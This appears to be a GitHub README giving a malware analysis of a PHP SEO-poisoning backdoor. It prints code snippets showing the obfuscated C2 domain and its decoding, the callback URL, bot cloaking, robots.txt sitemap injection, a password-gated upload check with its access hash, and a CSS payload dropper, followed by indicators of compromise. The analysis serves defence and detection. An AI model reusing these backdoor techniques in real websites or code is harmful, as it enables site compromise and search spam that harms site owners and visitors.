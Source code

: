 # 🛡️ PHP SEO Backdoor Malware – B676 Variant

> 🚨 **Disclaimer**: This repository is for **educational and research purposes only**. Do **not** deploy or use the code in any production environment. Malware is illegal and unethical to use maliciously. Learn responsibly.

---

## 📄 Overview

This repository documents a real-world PHP malware sample often used in search engine poisoning, SEO spam, and backdoor access. The script is found in compromised WordPress or shared hosting environments and is designed to cloak content, inject sitemaps, and communicate with a remote C2 (command-and-control) server.

The sample exhibits characteristics of:
- **SEO poisoning**
- **Remote code execution (RCE)**
- **Obfuscated communication with C2**
- **Bot detection & cloaking**
- **File injection (CSS, sitemap.xml, robots.txt)**
- **Persistence via stealth CSS payloads**

---

## 🧬 Malware Name Suggestions

- **B676 PHP Backdoor** (from internal comment `/* blog B676 */`)
- **PHP SEO Injector Shell**
- **Indexnew Web Shell**
- **ROT13 Cloaker Dropper**
- **Google Verification Faker**
- **C2-linked Sitemap Injector**

---

## 📂 Files in This Repo

| File                | Description                                    |
|---------------------|------------------------------------------------|
| `decoded_malware.php`     | Fully deobfuscated version of the malware      |
| `obfuscated.php` | Original obfuscated/encrypted malware sample |

---

## 🧪 Behavior Analysis

### 🔐 Initial Setup

```php
@set_time_limit(3600);
@ignore_user_abort(1);
```

- Prevents timeout and ensures the script runs even if user aborts the request.

---

### 🧅 Obfuscation

```php
$xmlname = '%73%6D%77%62%76%61%67%63%61%2E%70%6C%70%6E%79%7A%75%62%2E%66%76%67%72';
$goweb = str_rot13(urldecode($xmlname));
```

- `str_rot13` + `urldecode` used to hide the attacker-controlled C2 domain name.
- Final domain after decoding and ROT13: `fzjointpn.cycalmho.site`

---

### 📡 C2 Communication

```php
$web = $http_web . '://' . $goweb . '/indexnew.php';
```
- http://fzjointpn.cycalmho.site/indexnew.php

- The malware sends a POST request with victim information including:
  - Host
  - Request URI
  - Language
  - Referrer
  - Whether a CSS payload is loaded
  - Bot status (Googlebot, etc.)

- Receives instructions from attacker such as:
  - `okhtmlgetcontent` – Send back and display malicious HTML
  - `okxmlgetcontent` – Send back XML to spoof sitemap
  - `pingxmlgetcontent` – Ping sitemap URLs
  - `getcontent404page`, `500`, `301` – Send custom HTTP headers

---

### 🎭 Bot Cloaking

```php
function disbot() {
    $uAgent = strtolower($_SERVER['HTTP_USER_AGENT']);
    return stristr($uAgent, 'googlebot') || stristr($uAgent, 'bing') || ...;
}
```

- Detects bots like Googlebot or Bingbot.
- When bots are detected, serves fake or SEO-optimized content to poison search engine results.

---

### 🗺 Sitemap & Robots Injection

```php
file_put_contents("robots.txt", "Sitemap: http://victim.com/malicious.xml");
```

- Modifies `robots.txt` to insert a malicious sitemap.
- Attempts to manipulate search engine crawlers to index attacker-defined links and pages.

---

### 🔓 Password-Protected Backdoor

```php
$password = sha1(sha1(@$_REQUEST['pd']));
```

- Requires double-SHA1 hashed password to activate upload or overwrite functionalities.
- Hash for known backdoor access:  
  `f75fd5acd36a7fbd1e219b19881a5348bfc66e79`

- If matched:
  - Writes `.xml`, `.css`, `.html`, or any payload
  - Can upload verification files for fake Google ownership

---

### 🧬 CSS File Dropper

```php
fcss($dpath, $ps, $urlc);
```

- Downloads a stealth CSS payload from the attacker domain and stores it as:
  - `/css/xyzabc.css`
  - Or `/wp-includes/css/xyzabc.css`

- Filename is partially based on ROT13 and host hash.
- Later injected into fake HTML using `[##linkcss##]` placeholder.

---

## 🔍 Indicators of Compromise (IOCs)

| Indicator | Type |
|----------|------|
| `indexnew.php` | Remote C2 API |
| `robots.txt` with unexpected `Sitemap:` lines | SEO Hijacking |
| Strange `.css` files in `wp-includes/css/` | Payload Injection |
| Usage of `str_rot13`, `urldecode`, or `google-site-verification` in PHP | Obfuscation / SEO abuse |
| Backdoor SHA1 hash: `f75fd5acd36a7fbd1e219b19881a5348bfc66e79` | Backdoor password trigger |

---



---

## 📚 License

MIT License – for research, education, and awareness only.  
Absolutely **no support or tolerance for malicious use**.

---

## ✍️ Author / Researcher

**Hamza Haroon**  
Cybersecurity enthusiast, developer, and malware analyst  
Feel free to contribute improvements or analysis.

